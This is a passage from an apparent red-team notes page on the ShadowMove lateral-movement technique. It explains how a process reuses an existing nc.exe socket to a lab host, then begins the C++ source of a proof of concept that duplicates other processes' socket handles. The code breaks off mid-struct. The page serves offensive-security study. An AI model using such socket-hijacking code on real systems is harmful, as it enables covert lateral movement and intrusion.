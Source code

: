 {% hint style="warning" %}
It's important to stress once more, the ShadowMove.exe **does not** **create any TCP connections to the target host.** Instead, it reuses the existing connected socket to `192.168.56.102:80`  between the source and target host, that was established by the nc.exe process on the source system - and this is the key point of this lateral movement technique.
{% endhint %}

## Code

Below is the code written by [Juan Manuel Fernández](https://www.twitter.com/@TheXC3LL) which I modified slightly, so that it would compile without errors in my development environment with Visual Studio 2019:

```cpp
// PoC of ShadowMove Gateway by Juan Manuel Fernández (@TheXC3LL) 

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <winsock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"WS2_32")

// Most of the code is adapted from https://github.com/Zer0Mem0ry/WindowsNT-Handle-Scanner/blob/master/FindHandles/main.cpp
#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define SystemHandleInformation 16
#define ObjectNameInformation 1

typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
	ULONG SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength
	);
typedef NTSTATUS(NTAPI* _NtDuplicateObject)(
	HANDLE SourceProcessHandle,
	HANDLE SourceHandle,
	HANDLE TargetProcessHandle,
	PHANDLE TargetHandle,
	ACCESS_MASK DesiredAccess,
	ULONG Attributes,
	ULONG Options
	);
typedef NTSTATUS(NTAPI* _NtQueryObject)(
	HANDLE ObjectHandle,
	ULONG ObjectInformationClass,
	PVOID ObjectInformation,
	ULONG ObjectInformationLength,
	PULONG ReturnLength
	);

typedef struct _SYSTEM_HANDLE
{
	ULONG ProcessId;
	BYTE ObjectTypeNumber;
	BYTE Flags;
	USHORT Handle;
	PVOID Object;
	ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
```